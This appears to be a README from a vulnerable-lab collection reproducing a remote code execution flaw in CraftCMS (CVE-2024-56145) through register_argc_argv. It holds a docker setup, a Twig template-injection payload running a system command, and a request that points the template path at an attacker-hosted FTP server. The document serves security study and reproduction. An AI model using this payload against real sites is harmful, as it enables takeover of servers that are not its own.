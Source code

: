 # CraftCMS `register_argc_argv` Leads to Remote Code Execution (CVE-2024-56145)

[中文版本(Chinese version)](README.zh-cn.md)

CraftCMS is a PHP-based content management system for building websites and applications.

CraftCMS version before 5.5.2 and 4.13.2 is vulnerable to remote code execution if the PHP setting `register_argc_argv` is enabled. When `register_argc_argv` is enabled, CraftCMS incorrectly reads configuration items from the HTTP request, allowing an attacker to control template files using the `--templatesPath`, which can lead to arbitrary code execution through template injection.

Reference:

- <https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9>
- <https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms>

## Vulnerable Environment

Execute the following command to start a CraftCMS server 5.5.1.1:

```
docker-compose up -d
```

After the server is running, you can see the installation page at `http://<your-ip>:8088/admin/install`. Please follow the instructions to install CraftCMS, the default database address is `db` and the username and password are both `root`.

![](1.png)

## Exploit

To reproduce the vulnerability, you need to prepare a craft `index.twig` file which contains the following content, then place it on any remote server:

```twig
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

Then start a FTP server in the server where the `index.twig` file is located:

```bash
# install pyftpdlib
pip install pyftpdlib

# start a FTP server
python -m pyftpdlib -p 21212 -V
```

Then you can exploit the vulnerability by sending the following request:

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```

![](2.png)

As you can see, the `id` command is executed and the output is returned.
